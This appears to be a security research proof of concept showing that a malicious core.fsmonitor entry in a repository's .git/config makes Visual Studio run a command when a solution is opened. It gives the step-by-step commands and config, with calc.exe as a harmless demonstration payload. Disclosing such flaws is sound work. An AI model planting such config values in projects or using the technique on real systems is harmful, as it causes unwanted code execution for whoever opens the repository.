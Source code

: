 ### Visual Studio POC

This POC demonstrates exploitation of Visual Studio 2019, but the process for Visual Studio 2022 is the same.

Launch Visual Studio. Create a new project. Choose "C# Console Application" (.NET Core). Accept the defaults (Project name, location, solution name, target framework etc.)

Once the project has been created, close Visual Studio.

Create an empty Git repo alongside the solution:

```plain
C:\Users\justin> dir source\repos\ConsoleApp1
 Volume in drive C has no label.
 Volume Serial Number is 0E79-D457

 Directory of C:\Users\justin\source\repos\ConsoleApp1

13/08/2021  04:45 PM    <DIR>          .
13/08/2021  04:45 PM    <DIR>          ..
13/08/2021  04:45 PM    <DIR>          ConsoleApp1
13/08/2021  04:45 PM             1,139 ConsoleApp1.sln
               1 File(s)          1,139 bytes
               3 Dir(s)  64,797,212,672 bytes free

C:\Users\justin> "c:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\cmd\git.exe" -C source\repos\ConsoleApp1 init
Initialized empty Git repository in C:/Users/justin/source/repos/ConsoleApp1/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
C:\Users\justin> notepad source\repos\ConsoleApp1\.git\config

[... Edit the file ...]

C:\Users\justin> type source\repos\ConsoleApp1\.git\config
[core]
        repositoryformatversion = 0
        filemode = false
        bare = false
        logallrefupdates = true
        symlinks = false
        ignorecase = true
        fsmonitor = calc
```

Open the `.sln` file within Visual Studio. Observe that `calc.exe` pops.

```plain
C:\Users\justin> start source\repos\ConsoleApp1\ConsoleApp1.sln

[... Visual Studio opens as a graphical application ...]
[... calc.exe pops ...]
```
